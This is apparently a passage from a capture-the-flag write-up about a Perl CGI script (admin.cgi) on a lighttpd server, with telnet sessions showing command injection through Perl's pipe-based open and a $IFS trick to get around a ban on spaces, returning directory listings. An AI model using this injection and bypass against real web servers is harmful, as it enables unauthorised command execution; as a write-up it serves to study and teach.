 OK, it seems we can read any file the user running the web server has access to. After lots, I mean LOTS of struggling we finally decided to read perl's manual regarding OPEN :) It was a fruitful decision: turned out that OPEN can be used to run commands with some pipe-magic:

```
[0x00 ~]$ telnet 195.56.122.9 8976
Trying 195.56.122.9...
Connected to 195.56.122.9.
Escape character is '^]'.
GET /cgi-bin/admin.cgi?ls| HTTP/1.1
Host: 195.56.122.9 

HTTP/1.1 200 OK
Content-type: text/html
Transfer-Encoding: chunked
Date: Sat, 03 Sep 2011 10:21:39 GMT
Server: lighttpd/1.4.28

19
Opening QUERY_STRING<br/>
1f
admin.cgi
index.html
login.cgi

0

Connection closed by foreign host.
```

Yeah :D The only problem is, that spaces are not allowed. But it is not really a problem, since we've got a friend called $IFS. Yepp, the internal field separator, which usually is a space character. PoC:

```
[0x00 ~]$  telnet 195.56.122.9 8976
Trying 195.56.122.9...
Connected to 195.56.122.9.
Escape character is '^]'.
GET /cgi-bin/admin.cgi?ls$IFS-al| HTTP/1.1
Host: 195.56.122.9 

HTTP/1.1 200 OK
Content-type: text/html
Transfer-Encoding: chunked
Date: Sat, 03 Sep 2011 10:23:59 GMT
Server: lighttpd/1.4.28

19
Opening QUERY_STRING<br/>
fa
total 16
drwxr-xr-x 2 root root 4096 Sep  1 10:34 .
drwxr-xr-x 4 root root 4096 Sep  1 06:58 ..
-rw-r--r-- 1 root root  190 Aug 29 14:03 admin.cgi
-rw-r--r-- 1 root root    0 Sep  1 08:27 index.html
-rw-r--r-- 1 root root 1002 Sep  1 06:32 login.cgi

0

Connection closed by foreign host.
```
